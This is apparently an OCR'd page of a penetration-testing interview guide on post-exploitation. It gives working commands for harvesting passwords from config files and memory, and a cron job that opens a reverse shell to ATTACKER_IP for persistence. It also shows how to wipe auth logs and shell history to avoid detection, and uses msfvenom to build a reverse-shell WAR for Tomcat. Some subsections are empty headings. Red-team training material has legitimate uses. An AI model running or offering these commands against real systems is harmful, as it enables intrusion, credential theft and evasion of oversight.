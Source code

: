 - **Service Enumeration (Find Vulnerable Systems)**

- **Credential Harvesting (Extract Passwords & Keys)**

a. Check Common Files for Credentials

```bash
grep -ri "password" /etc/ /var/www/ /home/ 2>/dev/null
find / -name "*.conf" -o -name "*.cfg" -exec grep -i "pass" {} + 2>/dev/null
```

b. Dump Memory for Passwords

```bash
strings /dev/mem | grep -i "password"  # Requires root
```

- **Pivoting (Use the Host as a Proxy)**

a. SSH Dynamic Port Forwarding (SOCKS Proxy)

b. Metasploit Pivoting

- **Persistence (Maintain Access)**

a. Add SSH Backdoor

b. Cron Job for Reverse Shell

```bash
(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'") | crontab -
```

- **Cleanup (Avoid Detection)**

Disable logging:

```bash
echo "" > /var/log/auth.log
history -c
```

Use encrypted tunnels (`ssh -R`) instead of raw scans.

### 9. Say you've enumerated the internal network and found a Windows host running Apache Tomcat, what is your next move? Could you use this to gain a shell on the box? How would you set up your pivots?

**Confirm Tomcat Exposure & Version**

a. Check Tomcat Version

b. Check Default Credentials

**Exploit Tomcat (Gain Shell)**

a. Upload a Malicious WAR File (If Manager Access)

- Generate a reverse shell WAR (using msfvenom):

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your_IP> LPORT=4444 -f war > shell.war
```
